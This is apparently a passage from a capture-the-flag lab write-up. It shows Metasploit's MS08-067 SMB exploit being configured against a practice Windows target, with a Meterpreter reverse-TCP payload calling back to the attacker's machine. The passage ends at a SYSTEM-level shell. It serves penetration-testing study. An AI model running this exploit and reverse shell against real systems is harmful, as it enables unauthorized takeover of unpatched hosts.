 ```bash
Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.0.82     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting
```
In this instance, we need to change `RHOST` to our remote host at 10.10.10.4, and alter the `LHOST` to the appropriate local IP. Since I'm using a VM it defaulted to the wrong address. If this address was not changed, the exploit would run but call back to the incorrect system, and thus being useless for our needs. Each of these options can be adjusted with the `set` command.

```bash
msf6 exploit(windows/smb/ms08_067_netapi) > set RHOSTS 10.10.10.4
RHOSTS => 10.10.10.4
msf6 exploit(windows/smb/ms08_067_netapi) > set LHOST 10.10.14.10
LHOST => 10.10.14.10
msf6 exploit(windows/smb/ms08_067_netapi) > options

Module options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS   10.10.10.4       yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT    445              yes       The SMB service port (TCP)
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.10      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting
```
With our parameters set, we type `run` or `exploit` to begin the attack. Metasploit automatically sets up a listener on our machine at port 4444. The exploit is sent to the target, and we then wait for a response. We are greeted with a Meterpreter prompt, which allows for a lot of additional streamlined maneuvering and exploitation. The Meterpreter command `getuid` shows us who we are running as on the system, and in this case we have the highest level we can get on this machine: **NT AUTHORITY\SYSTEM**
